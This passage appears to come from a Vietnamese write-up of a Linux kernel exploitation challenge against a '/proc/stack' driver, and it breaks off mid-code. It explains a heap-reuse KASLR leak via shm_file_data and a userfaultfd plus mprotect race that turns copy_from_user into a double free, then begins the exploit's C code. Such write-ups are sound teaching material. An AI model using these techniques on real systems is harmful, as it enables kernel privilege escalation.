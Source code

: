 ```shm_file_data.ns``` trùng offset với ```Element.value``` từ đó ta leak được data base -> leak được text base.
    ![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/9f1c902a-6475-43f3-b959-78371f6040fc)
    ![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/79aa11ed-5c63-492e-a589-01f319fd6ce8)
    * Bây giờ, ở những hàm như `copy_from_user`, khi mà hàm này cố gắng truy cập vào địa chỉ ảo ở user-mode chưa được ánh xạ, sẽ xuất hiện tượng `pagefault` , lúc này kernel sẽ gọi hàm để handle `pagefault` trước rồi sẽ cho hàm `copy_from_user` truy cập sau.
    * Ở Linux có [hàm syscall `userfaultfd`](https://man7.org/linux/man-pages/man2/userfaultfd.2.html) giúp ta handle pagefault ở user-mode.


Vậy chiến thuật để trigger `double free` là:

1. Hàm  `proc_ioctl` "cha" có case `CMD_PUSH`
2. Hàm `copy_from_user` được gọi ra với user-mode address chưa được ánh xạ.
3. Trigger handler pagefault ở user-mode được gọi ra.
4. Hàm handler này sẽ lại `PUSH`-> hàm `proc_ioctl` "con" `CMD_POP`
5. Vì hàm `proc_ioctl` "cha" đã được gọi với chạy tới line 30 nên `head` đã được gán một giá trị trỏ tới heap -> được free(head).
6. Return về hàm handler, ta gọi `mprotect` chặn quyền read-write, khi đó dù địa chỉ hợp lệ nhưng hàm `copy_from_user` vẫn trả về khác 0.
7. Return về `proc_ioctl` "cha", vì `copy_from_user` khác 0 nên `kfree(tmp)` được gọi ra, nhưng vì `tmp` = `head` nên ta free(heap) lần nữa -> double free.

Vậy còn chiến thuật leak?

* Đơn giản là allocate `shm_file_data` rồi free nó, khi allocate `Element` thì nó sẽ tự allocate lại địa chỉ vừa mới được free.

* Tuy nhiên để chắc chắn khi allocate `Element` sẽ được địa chỉ struct `shm_file_data` với mới free thì ta nên xài fork để khoảng thời gian giữa 2 operations này là rất ngắn.

Code:
```c 
#define CMD_PUSH 0x57ac0001
#define CMD_POP  0x57ac0002

typedef struct _Element {
  int owner;
  unsigned long value;
  struct _Element *fd;
} Element;

#define dev_char "/proc/stack"

int global_fd;
const char *buf[0x1000];
void dev_open(){
    global_fd = open(dev_char,O_RDWR);
    log_info("Opened dev char.");
}
int64_t read_buffer[0x20];
void pop(void* arg){
    ioctl(global_fd,CMD_POP,arg);
    log_info("Got value: 0x%lx",*(int64_t *)arg);
}
void  _push(void* arg){
    ioctl(global_fd,CMD_PUSH,arg);
    log_info("Pushed %p",arg);
    
}

static void call_shmat(void)
```